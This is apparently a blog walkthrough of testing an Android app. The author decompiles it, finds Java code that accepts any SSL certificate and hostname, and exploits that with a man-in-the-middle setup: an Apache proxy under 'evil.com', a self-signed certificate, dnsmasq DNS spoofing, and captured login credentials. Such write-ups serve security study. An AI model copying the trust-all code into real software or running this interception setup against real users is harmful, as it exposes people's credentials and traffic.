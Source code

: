```yaml
---
published: true
---
```

I chose one application in Google Play to test. Its main functionalities were focused on consuming a RESTful web service. I decompiled this application using tools dex2jar and JD-GUI. Firstly I connected my phone to computer to get apk file

	$ adb pull /data/app/com.example.app-1.apk

Then I converted apk into jar and ran decompiler

	$ ./d2j-dex2jar.sh com.example.app-1.apk -o app.jar
	dex2jar com.example.app-1.apk -> app.jar

	$ java -jar jd-gui-1.4.0.jar app.jar

During code analysis I found some interesting piece which made me think that application doesn't verify SSL certificate.

	SSLContext sc = SSLContext.getInstance("TLS");
	sc.init(null, new TrustManager[] { new TrustAllX509TrustManager() }, new java.security.SecureRandom());
	HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
	HttpsURLConnection.setDefaultHostnameVerifier( new HostnameVerifier(){
    	public boolean verify(String string,SSLSession ssls) {
        	return true;
    	}
	});
	
	public class TrustAllX509TrustManager implements X509TrustManager {
    	public X509Certificate[] getAcceptedIssuers() {
        	return new X509Certificate[0];
    	}
	
    	public void checkClientTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	
    	public void checkServerTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	}
    
To prove it I ran Burp Suite and set up proxy on my phone. It was important to not install Burp's CA certificate. Web browser started to show warning when I was trying to load any page through HTTPS, but my application was connecing to web service without any problems.
I decided to exploit this vulnerability and peform Man-in-the-middle attack by setting up proxy between target's mobile device and web service.

I started with [proxy](https://github.com/mmmds/walkthroughs/blob/master/proxy.php) which was script written in PHP and ran on Apache. It passes requests to legitimate web service and returns response from it slightly modifying headers to make whole communication readable. Apache required rewriting rule to redirect every URL to this script and self-signed SSL certificate.

	<VirtualHost *:443>
		ServerName evil.com
		RewriteEngine on
		RewriteCond %{REQUEST_FILENAME} !-d
		RewriteCond %{REQUEST_FILENAME} !-f
		RewriteRule . /proxy.php [L]
		DocumentRoot /var/www/html
		SSLEngine on
		SSLCertificateFile "/tmp/server.cert"
		SSLCertificateKeyFile "/tmp/server.key"
	</VirtualHost>

Certificate was generated by

	$ openssl req -nodes -new -x509 -keyout server.key -out server.cert
    
Next step was to run dnsmasq - DNS server configured to return my proxy's IP for web service domain.
Configuration consists of two files, /etc/dnsmasq.conf

	addn-hosts=/etc/dnsmasq.hosts
	server=8.8.8.8
    
and /etc/dnsmasq.hosts

	192.0.2.1 example.com
    
	$ dnsmasq -C /etc/dnsmasq.conf
    
The last step was to change router's DNS to set up server's IP in administration panel. From that moment traffic from every device connected to attacker's WiFi was logged.

	$ cat /tmp/traffic
	POST /login HTTP/1.1
	Accept: text/plain, text/plain, application/json, */*, */*
	Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; GT-I8160 Build/KTU84Q)
	Host: example.com
	Connection: Keep-Alive
	Content-Length: 53
    
    { "username": "user1", "password": "s3cr3tp4ssw0rd" }
    
    
    HTTP/1.1 200 200
	Server: nginx
	Date: Sat, 25 Feb 2017 20:47:29 GMT
	Content-Type: application/json
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: JSESSIONID=A163B20D3696AF6185C07CD62EBA4B05
    



